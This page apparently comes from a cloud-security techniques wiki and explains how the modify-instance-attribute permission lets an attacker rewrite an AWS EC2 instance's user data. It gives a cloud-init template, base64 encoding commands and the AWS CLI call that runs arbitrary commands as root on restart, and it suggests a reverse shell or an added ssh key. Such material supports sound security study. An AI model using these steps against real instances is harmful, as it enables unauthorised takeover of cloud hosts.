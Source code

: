 ```yaml
---
author: Nick Frichette
title: "Local Privilege Escalation: User Data"
description: Escalate privileges on an EC2 instance by modifying the user-data scripts with modify-instance-attribute.
hide:
  - toc
---
```


**Required IAM Permission**: [modify-instance-attribute](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ec2/modify-instance-attribute.html)  
**Recommended but not required**: [start-instances](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ec2/start-instances.html), [describe-instances](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ec2/describe-instances.html), [stop-instances](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ec2/stop-instances.html) (makes things go faster, requires less enumeration. The instance must be stopped to alter the user data)  

If an adversary has access to the modify-instance attribute permission they can leverage it to escalate to root/System on an EC2 instance.

Usually, user data scripts are only run the first time the instance is started, however this can be changed using [cloud-init](https://aws.amazon.com/premiumsupport/knowledge-center/execute-user-data-ec2/) to run every time the instance restarts.

To do this, first create a file in the following format.

```
Content-Type: multipart/mixed; boundary="//"
MIME-Version: 1.0

--//
Content-Type: text/cloud-config; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Content-Disposition: attachment; filename="cloud-config.txt"

#cloud-config
cloud_final_modules:
- [scripts-user, always]

--//
Content-Type: text/x-shellscript; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Content-Disposition: attachment; filename="userdata.txt"

#!/bin/bash
**commands here**
--//
```

Modify the ```commands here``` section to do whatever action you want. Setting a reverse shell, adding an ssh key to the default user, etc. are all good options.

Once you've done that, convert the file to base64. Linux can do this with the following command.

```base64 file.txt > file.b64.txt```

Windows can do this with the following command.

```certutil -encode file.txt tmp.b64 && findstr /v /c:- tmp.b64 > file.b64.txt```

Now that you've base64 encoded your payload, you will leverage the modify-instance-attribute API call to change the user data of the target instance. Note: the instance will need to be stopped to modify its user data. You'll either have to stop it yourself, or wait for something else to stop it.

```
aws ec2 modify-instance-attribute \
--instance-id=xxx \
--attribute userData \
--value file://file.b64.txt
```

With that change made, simply start the instance again and your command will be executed with root/System.
